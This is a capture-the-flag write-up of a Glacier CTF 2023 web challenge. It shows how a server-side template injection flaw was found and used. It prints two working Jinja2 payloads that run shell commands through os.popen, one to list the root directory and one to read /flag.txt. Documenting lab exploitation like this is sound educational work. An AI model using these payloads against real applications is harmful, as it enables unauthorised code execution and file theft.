 ```yaml
---
author: 0xbinder
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
// cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [Capture The Flag]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](5.png)

